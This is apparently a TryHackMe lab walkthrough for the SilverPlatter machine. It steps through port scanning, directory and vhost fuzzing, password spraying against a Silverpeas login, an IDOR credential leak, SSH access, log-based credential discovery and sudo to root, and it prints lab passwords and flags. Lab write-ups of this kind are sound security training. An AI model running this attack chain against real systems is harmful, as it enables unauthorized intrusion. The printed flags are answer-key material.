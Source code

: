 # 🧠 TryHackMe Walkthrough – SilverPlatter  
**By Allante Johnson**

---

## 🧭 Overview
This walkthrough documents the full exploitation path of the **SilverPlatter** machine, including **enumeration**, **web exploitation**, **IDOR vulnerability abuse**, **SSH access**, and **privilege escalation** to root.  
Each step includes commands, findings, and screenshots for validation.

---

## 🔍 Enumeration

### Nmap Syntax
```bash
nmap -p- [Target IP] -v -T5
nmap -p [Open Ports] -A [Target IP] -v -T5
```

### Nmap Results
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy
```

---

## 🌐 Web App Enumeration

### HTTP (80)
Ran `dirsearch` to identify accessible directories:
```bash
dirsearch -u 10.10.84.136
```

### 🧭 Virtual Host Discovery (VHosts)
```bash
./vhost-fuzzer.sh 10.10.84.136 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.84.136 14124
```

### Website Screenshot
![Silverpeas Web App](./screenshots/silverpass.png)

🟢 **Software Identified:** Silverpeas  
🧑 **Username Discovered:** `scr1ptkiddy`

---

## ⚙️ Service on Port 8080
Accessed login portal:
```
http://10.10.84.136:8080/silverpeas/defaultLogin.jsp
```
![Silverpeas Login](./screenshots/image.png)

---

## 🔐 Credential Brute Force / Password Spraying
Generated custom password list with `cewl` and used Burp Suite Turbo Intruder.

![Turbo Intruder](./screenshots/image%20(7).png)

🟢 Valid credentials:
```
Username: scr1ptkiddy
Password: adipiscing
```

![Login Success](./screenshots/image%20(3).png)

---

## 📨 IDOR Vulnerability – Credential Disclosure
![IDOR](./screenshots/image%20(4).png)

🧾 Credentials leaked:
```
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

---

## 💻 SSH Access
```bash
ssh tim@10.10.164.112
```

![SSH User Login](./screenshots/image%20(2).png)

### 🧾 User Flag
```bash
cat user.txt
THM{c4ca4238a0b923820dcc509a6f75849b}
```
![User Flag](./screenshots/image%20(1).png)

---

## 📈 Privilege Escalation Enumeration
User in `adm` group can read `/var/log`.

Found DB password in logs:  
![Log Discovery](./screenshots/image%20(5).png)

```
DB_PASSWORD=_Zd_zx7N823/
```

Switched to Tyler:  
![Switch User](./screenshots/image%20(6).png)

---

## 🧠 Root Privilege Escalation
Checked sudo privileges and escalated:
```bash
sudo su
cd /root && cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}
```
![Root Flag](./screenshots/image%20(7).png)

---

## ✅ Summary
| Step | Action | Result |
|------|--------|---------|
| Recon | Nmap | Found ports 22, 80, 8080 |
| Web Enum | Dirsearch + VHosts | Found Silverpeas |
| Exploitation | IDOR | Gained SSH access |
| PrivEsc | adm logs | Found DB creds |
| Root | Sudo | Got root flag |

---

## 🧠 Lessons Learned
- Always inspect `/var/log/` when user is in `adm` group.
- Look for credential reuse.
- Web apps may expose sensitive data via IDOR.

---

## 📂 Repository Info
**Repository Name:** `SilverPlatter`  
**Status:** ✅ Completed  
**Type:** TryHackMe Walkthrough
